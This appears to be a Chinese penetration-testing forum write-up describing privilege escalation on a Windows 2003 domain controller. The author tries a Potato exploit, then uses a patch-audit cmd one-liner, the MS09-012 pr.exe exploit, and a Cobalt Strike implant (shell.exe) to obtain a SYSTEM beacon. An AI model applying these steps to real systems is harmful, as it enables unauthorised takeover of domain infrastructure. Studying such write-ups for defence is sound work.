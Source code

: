 ![image-20220909102721232.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-410ceebb7e0d1e627cb6046bcfcf2e3fc2869c11.png)

系统为Win2003竟然是域控机子，我很诧异为什么域控机子会拿来开web系统  
既然是域控机子那就想办法提权了，想着CS上线脏土豆无脑梭了。

#### 踩坑：

发现打了454个补丁，脏土豆无法梭哈

![image-20220909103010386.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a43aed44052c6e63ad8787c93af944483ef3eae2.png)

CS用脏土豆能够弹回来一个SYSTEM的Beacon，但是whoami执行完，仍然是**nt authority\\network service**权限。  
MSF也尝试过仍没有提权成功。

![image-20220909103550228.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-596b419ea9bfe78a5dc1224715b67c704b2c9288.png)

#### 解决方式：

既然是Win2003肯定是能提权的，如果不能一键梭哈，直接去找历史提权漏洞，只要补丁没打，就能成功提权。  
这里我找到一个**Microsoft Windows RPCSS服务隔离本地权限提升漏洞**  
具体文章如下：  
[(68条消息) 【内网提权】windows2003本地PR提权详解*剑客 getshell的博客-CSDN博客*win2003提权](https://blog.csdn.net/weixin_45588247/article/details/107603186)  
利用以下cmd命令可以查询系统打了这个提权漏洞的补丁没有，如果没打就可以利用此漏洞提权。

```php
systeminfo > C:\\Windows\\Temp\\temp.txt&amp;(for %i in (KB3057191 KB2840221 KB3000061 KB2850851 KB2711167 KB2360937 KB2478960 KB2507938 KB2566454 KB2646524 KB2645640 KB2641653 KB944653 KB952004 KB971657 KB2620712 KB2393802 KB942831 KB2503665 KB2592799 KB956572 KB977165 KB2621440) do @type C:\\Windows\\Temp\\temp.txt|@find /i "%i"|| @echo %i Not Installed!)&amp;del /f /q /a C:\\Windows\\Temp\\temp.txt
```

![image-20220909104338298.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-8a29b432072acc935776fd9203952f7efe9fcff9.png)

KB952004 Not Installed!未进行补丁，可以利用MS09-012漏洞其进行提权  
上传pr.exe到目录下执行命令

```php
pr.exe "whoami"
```

![image-20220909105212457.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-550d9d780913aa43ac90f7692d22966f19678674.png)

成功。  
接下来用pr.exe执行下我的CS马就行。

```php
pr.exe "shell.exe"
```

![image-20220909105344518.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-49eaae7dc732acaf5cec7707be46e77101a5de69.png)

可以看到SYSTEM的beacon弹回来了。  
可以看到域用户还是有蛮多的。  
![image-20220909111534051.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d9888f414da528921d35431243e1ab6a4ef267c7.png)
